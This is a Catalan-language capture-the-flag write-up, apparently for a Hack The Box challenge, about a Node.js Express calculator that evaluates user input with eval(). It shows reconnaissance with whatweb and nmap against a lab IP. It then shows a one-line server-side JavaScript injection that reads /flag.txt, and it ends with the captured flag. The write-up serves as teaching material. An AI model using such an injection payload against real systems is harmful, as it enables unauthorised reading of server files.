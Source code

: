 Anem a la IP que ens donen i veiem el següent:

  

![image](https://github.com/PolMuri/Hack-the-box/assets/109922379/ea99944d-8968-4e50-b7c0-d8b55bca80b6)


  

Veiem el que bàsicament és una calculadora. El que veiem al text que ens mostra la web és que hi ha la funció eval() que fa que ens puguin injectar codi, per tant, sempre la hem d’evitar. La funció interpreta el que posem a dins hi posem el que hi posem.

  

El que podem començar fent contra aquesta web amb la IP i port que tenim és fer whatweb (és el mateix que l’extensió Wappalyzer:

  

![image](https://github.com/PolMuri/Hack-the-box/assets/109922379/3e145993-71cd-4579-ac5d-468598336b81)


```
`┌──(root㉿polkali)-[/home/polkali]

└─# whatweb http://94.237.48.205:56687/

http://94.237.48.205:56687/ [200 OK] Bootstrap[4.3.1], Country[FINLAND][FI], IP[94.237.48.205], JQuery, Script[text/javascript], Title[🦑calc 0.1], X-Powered-By[Express]`
```

  

Veiem que la web està feta amb X-Powered-By[Express] i ho busquem al navegador veiem que Express és:

Express **es el framework web más popular de Node, y es la librería subyacente para un gran número de otros frameworks web de Node populares**. Proporciona mecanismos para: Escritura de manejadores de peticiones con diferentes verbos HTTP en diferentes caminos URL (rutas).17 oct 2023

I veiem que està en Node, ja coneixem el llenguatge, que és Javascript del costat del servidor.

Ara tirarem un nmap:

  

```
`┌──(root㉿polkali)-[/home/polkali]

└─# nmap -p 56687 -sV -v 94.237.48.205

Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-02-21 18:29 CET

NSE: Loaded 46 scripts for scanning.

Initiating Ping Scan at 18:29

Scanning 94.237.48.205 [4 ports]

Completed Ping Scan at 18:29, 0.02s elapsed (1 total hosts)

Initiating Parallel DNS resolution of 1 host. at 18:29

Completed Parallel DNS resolution of 1 host. at 18:29, 0.00s elapsed

Initiating SYN Stealth Scan at 18:29

Scanning 94-237-48-205.uk-lon1.upcloud.host (94.237.48.205) [1 port]

Discovered open port 56687/tcp on 94.237.48.205

Completed SYN Stealth Scan at 18:29, 0.04s elapsed (1 total ports)

Initiating Service scan at 18:29

Scanning 1 service on 94-237-48-205.uk-lon1.upcloud.host (94.237.48.205)

Completed Service scan at 18:29, 11.15s elapsed (1 service on 1 host)

NSE: Script scanning 94.237.48.205.

Initiating NSE at 18:29

Completed NSE at 18:29, 0.17s elapsed

Initiating NSE at 18:29

Completed NSE at 18:29, 0.14s elapsed

Nmap scan report for 94-237-48-205.uk-lon1.upcloud.host (94.237.48.205)

Host is up (0.0046s latency).

  

PORT STATE SERVICE VERSION

56687/tcp open http Node.js Express framework

  

Read data files from: /usr/bin/../share/nmap

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .

Nmap done: 1 IP address (1 host up) scanned in 11.83 seconds

Raw packets sent: 5 (196B) | Rcvd: 2 (84B)`
```

  

Veiem com efectivament estpa obert el port per TCP i que a darrere hi tenim un Node.js Express framework.

  
Buscarem al navegador com llegir fitxers amb Node.js és a dir fer un cat amb Node. Amb una sola línia treurem la flag injectant a que sempre que injectem hem de posar totes les comandes amb una sola línia. Sempre amb coses així hem de buscar Oneliners i [https://book.hacktricks.xyz/welcome/readme](https://book.hacktricks.xyz/welcome/readme) ens pot servir per fer-ho.

  
La comanda amb una línia que hem fet és la següent, mirant la documentació de Node.js:

  

``require('fs').readFileSync('/flag.txt').toString();``

**I ja tenim la flag:**

  

![image](https://github.com/PolMuri/Hack-the-box/assets/109922379/e0e1a0ab-0f32-4957-a3d9-8a1a54dc1c88)


  

La flag: **HTB{c4lcul4t3d_my_w4y_thr0ugh_rc3}**

  

  

![image](https://github.com/PolMuri/Hack-the-box/assets/109922379/26b7ee89-4ed1-4936-8251-fcda7b1f47f7)
